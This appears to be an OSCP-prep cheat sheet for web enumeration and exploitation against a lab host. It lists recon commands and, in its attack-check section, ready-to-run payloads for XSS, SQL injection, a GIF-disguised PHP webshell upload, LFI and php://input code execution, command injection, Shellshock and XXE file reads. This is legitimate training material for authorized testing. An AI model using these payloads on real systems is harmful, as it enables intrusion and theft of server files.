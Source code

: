 # Web Application Enumeration & Exploitation Notes (OSCP-Ready)

> Use this when a target exposes HTTP(S). All commands are inline grey and copy/paste friendly. Outputs are saved under `scans/<TARGET>`.

- **Covers**: Module 8 web methodology & tools (Nmap, Wappalyzer, Gobuster, Burp), enumeration (headers, cookies, source, APIs), and core attacks (**XSS**, **SQLi**, **LFI/RFI**, **File-upload**, **SSTI**, **XXE**, **Cmd-inj**), with **post-exploitation evidence** habits.  
- **Why this format**: candidates pass more reliably with **one organized notes repo** vs scattered PDFs/Notion.  
- **HTB web labs**: practice flow aligns with typical HTB web boxes (**manual**, **no metasploit**).

---

## 0) Quickstart

- `mkdir -p scans/10.10.10.5/http scans/10.10.10.5/notes`

> **Mistake → Fix** — Messy evidence & missing screenshots/logs → Always log output into `scans/<host>/...` as you go; it saves hours when writing the report.

---

## 1) Fingerprint the Web Stack

- Nmap quick enum → `nmap -p80,443 -sV --script=http-enum -oA scans/10.10.10.5/http/nmap_http 10.10.10.5`  
- Whatweb → `whatweb http://10.10.10.5 | tee scans/10.10.10.5/http/whatweb.txt`  
- Curl headers → `curl -i -s http://10.10.10.5 | tee scans/10.10.10.5/http/headers_http.txt`  

---

## 2) Content Discovery

- Gobuster → `gobuster dir -u http://10.10.10.5 -w /usr/share/wordlists/dirb/common.txt -t 10 -o scans/10.10.10.5/http/gobuster_common.txt`  
- Robots.txt → `curl -s http://10.10.10.5/robots.txt | tee scans/10.10.10.5/http/robots.txt`  
- Sitemap → `curl -s http://10.10.10.5/sitemap.xml | tee scans/10.10.10.5/http/sitemap.xml`  

---

## 3) Curated Relative Web Paths (OSCP quick wins)

| Path | Likely contents | Quick tell |
|---|---|---|
| `/dev/` | test tools, `phpbash.php` | Gobuster finds “dev/test” |
| `/uploads/` | user uploads (maybe exec) | check weak MIME |
| `/backup/`, `/backups/` | `.zip`, `.tar`, `.sql`, `.bak` | look for old configs |
| `/admin/` | admin panels | try default creds |
| `/config/` | config files with creds | grep `pass\|user\|key` |
| `/old/`, `/tmp/`, `/test/` | legacy code | directory listing |
| `/.git/`, `/.svn/` | repo leaks | test `/.git/HEAD` |
| `/api/`, `/v1/` | JSON APIs | `curl` returns JSON |

---

## 4) Burp Suite

- Start Burp → `burpsuite`  
- Proxy Firefox → `127.0.0.1:8080`  
- Use Proxy → HTTP history, Repeater, Intruder  

---

## 5) API Enumeration

- Create pattern file → `cat > scans/10.10.10.5/http/api.pattern`  
- Add lines → `{GOBUSTER}/v1` and `{GOBUSTER}/v2`  
- Save → `EOF`  
- Run gobuster → `gobuster dir -u http://10.10.10.5:5001 -w /usr/share/wordlists/dirb/big.txt -p scans/10.10.10.5/http/api.pattern -o scans/10.10.10.5/http/gobuster_api.txt`  
- Probe endpoint → `curl -i http://10.10.10.5:5001/users/v1 | tee scans/10.10.10.5/http/api_users_v1.txt`  

---

## 6) Common Attack Checks

### 6.1 XSS
- Reflected → `curl -G --data-urlencode 'q=<script>alert(1)</script>' http://10.10.10.5/search`  
- Stored header → `curl -i -s http://10.10.10.5/ -H "User-Agent: <script>alert(42)</script>"`  

### 6.2 SQL Injection
- Union → `curl "http://10.10.10.5/item.php?id=1 UNION SELECT 1,2,3-- "`  
- Boolean → `curl "http://10.10.10.5/item.php?id=1' AND '1'='1-- "`  
- Time → `curl "http://10.10.10.5/item.php?id=1 AND SLEEP(5)-- "`  

### 6.3 File Upload
- Basic test → `curl -F "file=@shell.php.jpg" http://10.10.10.5/upload`  
- Magic bytes trick → `printf "GIF89a;\n<?php system('id'); ?>" > shell.php.gif`  
- Upload gif → `curl -F "file=@shell.php.gif" http://10.10.10.5/upload`  

### 6.4 LFI / RFI
- Passwd → `curl "http://10.10.10.5/index.php?page=../../../../etc/passwd"`  
- Source → `curl "http://10.10.10.5/index.php?page=php://filter/convert.base64-encode/resource=index.php"`  
- php://input → `curl -X POST "http://10.10.10.5/index.php?page=php://input" -d "<?php system('id'); ?>"`  

### 6.5 Command Injection
- Basic → `curl "http://10.10.10.5/ping.php?host=127.0.0.1;id"`  
- Shellshock → `curl -H "User-Agent: () { :; }; /bin/bash -c 'id'" http://10.10.10.5/cgi-bin/status`  

### 6.6 SSTI
- Jinja2 test → `curl "http://10.10.10.5/page?name={{7*7}}"`  

### 6.7 XXE
- Create XML file with → `<?xml version="1.0"?><!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>`  
- Send → `curl -H 'Content-Type: application/xml' --data-binary @scans/10.10.10.5/http/xxe.xml http://10.10.10.5/upload-xml`  

---

## 7) Browser DevTools

- Firefox Inspector → review HTML, JS, hidden inputs.  
- Firefox Network → capture headers, redirects.  

---

## 8) Evidence & Reporting

- Start logging → `script -f scans/10.10.10.5/term.log`  
- Stop logging → `exit`  
- Screenshot **whoami / hostname / ip / proof.txt**.  

---

## 9) Post-Foothold Checklist

- Windows quick enum → `whoami /all & systeminfo & ipconfig /all & route print & arp -a & tasklist > post_enum_windows.txt`  
- Linux quick enum → `( whoami; id; uname -a; cat /etc/os-release; ip -a || ifconfig -a; ip r || route -n; ss -tulpn || netstat -tulpn ) > post_enum_linux.txt`  

---

## 10) One-Command Kickoff

- `TARGET=10.10.10.5; mkdir -p scans/$TARGET/http && whatweb http://$TARGET | tee scans/$TARGET/http/whatweb.txt && curl -i -s http://$TARGET | tee scans/$TARGET/http/headers_http.txt && gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirb/common.txt -t 10 -o scans/$TARGET/http/gobuster_common.txt && curl -s http://$TARGET/robots.txt | tee scans/$TARGET/http/robots.txt`

---

## References
- PEN-200 Modules (esp. 8: Web Methodology, Tools, Enumeration, XSS)  
- Service Enumeration Cards (HTTP paths & mini-playbooks)  
- OSCP Fail Patterns (notes hygiene, timeboxing, screenshots discipline)

